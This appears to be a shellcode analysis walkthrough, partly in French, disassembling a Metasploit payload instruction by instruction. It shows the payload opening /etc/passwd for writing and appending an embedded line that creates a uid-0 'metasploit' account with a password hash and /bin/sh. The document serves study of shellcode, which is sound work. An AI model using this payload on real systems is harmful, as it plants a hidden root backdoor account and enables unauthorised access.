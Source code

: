 The file /etc/passwd is open for reading and writing.

```c
    ; open syscall (open file /etc/passwd)
    ; int open(const char *pathname, int flags);

   0x08048509 <+9>:	push   0x5			    
   0x0804850b <+11>:	pop    eax
   0x0804850c <+12>:	xor    ecx,ecx
   0x0804850e <+14>:	push   ecx
   0x0804850f <+15>:	push   0x64777373	; dwss
   0x08048514 <+20>:	push   0x61702f2f	; ap//
   0x08048519 <+25>:	push   0x6374652f	; cte/
   0x0804851e <+30>:	mov    ebx,esp
                 

    ; the flag is set here
    ; http://www.linux-france.org/article/man-fr/man2/open-2.html
    ; The file fcntl.h tell us the value behind 0x401
    ; O_WRONLY (0x1) O_NOCTTY (0x400)
    ; the file is open for writing
    ; ecx = 0x401
   0x08048520 <+32>:	inc    ecx
   0x08048521 <+33>:	mov    ch,0x4	     
   0x08048523 <+35>:	int    0x80		

    ; We save here the socktfd

   0x08048525 <+37>:	xchg   ebx,eax

````
Then we have an unconditional leap towards the offset +83 which corresponds to the leap from 0x804852b à 0x08048552
Because this space contains the character string "metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀"

```c
    ; jump to code at offset+83 soit 0x08048553
    ; Byte de 0x804852b à 0x08048552 correspond à 
    ; ECX: 0x804852b ("metasploit:Az/dIsj4p4IRc:0:0::/:/bin/sh\nY\213Q\374j\004X̀j\001X̀") 

   0x08048526 <+38>:	call   0x8048553 <code+83>

    ; jump destination
    ; ecx will take the value of the string that will be stored in /etc/passwd
    ; edx = 0x28 which is the size of the string 

   0x08048553 <+83>:    pop ecx
   0x08048554 <+84>:    mov edx, DWORD PTR [ecx-0x4]
````

This is followed by one write as ssize_t write(int fd, const void *buf, size_t count);
ebx = file handler
ecx = chaine de caractère
edx = 0x28
